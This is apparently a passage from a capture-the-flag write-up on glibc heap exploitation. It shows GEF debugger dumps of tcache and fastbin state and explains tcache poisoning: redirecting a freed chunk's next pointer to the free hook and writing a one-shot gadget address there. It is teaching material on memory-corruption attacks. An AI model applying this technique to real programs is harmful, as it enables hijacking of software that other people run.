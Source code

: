 ```
Fastbins[idx=6, size=0x70] 0x00
─────────────────── Unsorted Bin for arena '*0x7f73349e5c40' ───────────────────
[+] Found 0 chunks in unsorted bin.
──────────────────── Small Bins for arena '*0x7f73349e5c40' ────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────── Large Bins for arena '*0x7f73349e5c40' ────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/4g 0x565454052290
0x565454052290: 0x565454052380  0x0
0x5654540522a0: 0x0 0x41
gef➤  x/4g 0x565454052380
0x565454052380: 0x5654540522f0  0x0
0x565454052390: 0x0 0x21
gef➤  x/4g 0x5654540522f0
0x5654540522f0: 0x5654540524b0  0x0
0x565454052300: 0x0 0x71
```

Here we essentially just allocated and freed `5` chunks (this is before we clear out the tcache). These all ended up in the tcache with `idx` `0`. We also see here that each one contains a pointer to the next chunk. So if we can overwrite the next pointer of a tcache entry to let's say the address of the free hook, we will be able to allocate a chunk to the free hook. With that, we will be able to write to it the address of the oneshot gadget. Before we allocate more chunks for this, the tcache looks like this:

```
gef➤  heap bins
───────────────────── Tcachebins for arena 0x7fcd5c1eac40 ─────────────────────
Tcachebins[idx=0, size=0x10] count=1  ←  Chunk(addr=0x55c26839d200, size=0x20, flags=)
Tcachebins[idx=1, size=0x20] count=1  ←  Chunk(addr=0x55c26839c310, size=0x30, flags=PREV_INUSE)
Tcachebins[idx=2, size=0x30] count=1  ←  Chunk(addr=0x55c26839c2b0, size=0x40, flags=PREV_INUSE)
Tcachebins[idx=3, size=0x40] count=1  ←  Chunk(addr=0x55c26839c340, size=0x50, flags=PREV_INUSE)
Tcachebins[idx=5, size=0x60] count=1  ←  Chunk(addr=0x55c26839d270, size=0x70, flags=)
Tcachebins[idx=7, size=0x80] count=1  ←  Chunk(addr=0x55c26839c390, size=0x90, flags=PREV_INUSE)
Tcachebins[idx=11, size=0xc0] count=1  ←  Chunk(addr=0x55c26839cae0, size=0xd0, flags=PREV_INUSE)
Tcachebins[idx=14, size=0xf0] count=1  ←  Chunk(addr=0x55c26839c420, size=0x100, flags=PREV_INUSE)
Tcachebins[idx=29, size=0x1e0] count=1  ←  Chunk(addr=0x55c26839c520, size=0x1f0, flags=PREV_INUSE)
Tcachebins[idx=59, size=0x3c0] count=1  ←  Chunk(addr=0x55c26839c710, size=0x3d0, flags=PREV_INUSE)
────────────────────── Fastbins for arena 0x7fcd5c1eac40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────── Unsorted Bin for arena '*0x7fcd5c1eac40' ───────────────────
[+] unsorted_bins[0]: fw=0x55c26839d1d0, bk=0x55c26839d1d0
 →   Chunk(addr=0x55c26839d1e0, size=0x20, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
──────────────────── Small Bins for arena '*0x7fcd5c1eac40' ────────────────────
[+] small_bins[4]: fw=0x55c26839d210, bk=0x55c26839d210
 →   Chunk(addr=0x55c26839d220, size=0x50, flags=PREV_INUSE)
[+] Found 1 chunks in 1 small non-empty bins.
──────────────────── Large Bins for arena '*0x7fcd5c1eac40' ────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  
```
